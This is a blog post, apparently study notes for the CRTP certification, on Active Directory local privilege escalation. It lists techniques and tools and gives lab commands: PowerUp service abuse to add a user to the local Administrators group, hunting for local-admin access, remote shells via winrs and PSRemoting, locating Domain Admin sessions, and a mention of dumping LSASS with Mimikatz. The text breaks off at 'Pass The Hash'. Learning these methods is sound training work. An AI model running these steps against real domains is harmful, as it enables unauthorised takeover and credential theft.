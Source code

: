 ```yaml
---
layout: post
title: Active Directory (AD) | Local Privilege Escalation
date: 2024-06-25 7:40:00 +0800
categories: [Cert, CRTP]
tags: [Cert, Active Directory]     # TAG names should always be lowercase
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```



# 1. Local Privilege Escalation

 **In Active Directory Environment, there are multiple scenarios which lead to privilege escalation. We had a look at the following:**
 
 - Hunting for Local Admin access on other machines
 - Hunting for high privilege domain accounts (like a Domain Administrator)
 - **Example Scenario :** I have local admin access on a machine **-->** A Domain Admin has a session on that machine **-->** I steal his token and impersonate him **-->** Profit!
s
 **There are various ways of locally escalting privilege on Windows:**
 
 - Missing Patches
 - Automated Deployment and AutoLogon password in clear text
 - AlwaysInstallElevated (Any user can run MSI on SYSTEM)
 - Misconfigured Services
 - DLL Hijacking and more
 - NTLM Relaying a.k.a Wont’t Fix
 - NTLM Relaying example - https://github.com/antonioCoco/RemotePotato0

 **We can use below tools for complete coverage:**
 
 - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
 - https://github.com/enjoiz/Privesc
 - https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md - Very NOISY

# 2. Check for any privilege escalation path - PowerUp

First step for local privilege escalation, we will try to check for any privilege escalation path. Then if we found any services that can be abused, we can add our domain user to the local admin group.

{: .prompt-info }
```bash
#Check for any priviliege escalation path
Invoke-AllChecks

#Abuse the service and add our current domain user to the local Administrator group
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```

# 3. Identify any machine in the domain where our user has local administrative - Find-PSRemotingLocalAdminAccess.ps1

Next step, we will try to identify any computers/machines in the domain where our user has local administrative access. 

{: .prompt-info }
```bash
#Identify a computer within the network domain where the user has local admin privileges.
Find-PSRemotingLocalAdminAccess
```

We can connect to the machine who has the local administrative access by using winrs
{: .prompt-info }
```bash
winrs -r:dcorp-adminsrv cmd

#Checking the username and computername in the remote winrs session
set username
set computername
```

We can also use PowerShell Remoting
{: .prompt-info }
```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

# 4. Identify a machine in the domain where a Domain Admin session is available - PowerView

A request will be sent to Domain Controller to retrieve all ComputerName and membership of the domain admin's group which has admin session there.
{: .prompt-info }
```bash
Find-DomainUserLocation
```

# 5. Extract Credentials from LSASS using Mimikatz

Once we have remote admin session on the remote machine, we will extract credentials from LSASS. Bear in mind , **to avoid LSASS unless you have nothing to do.**

Pass The Hash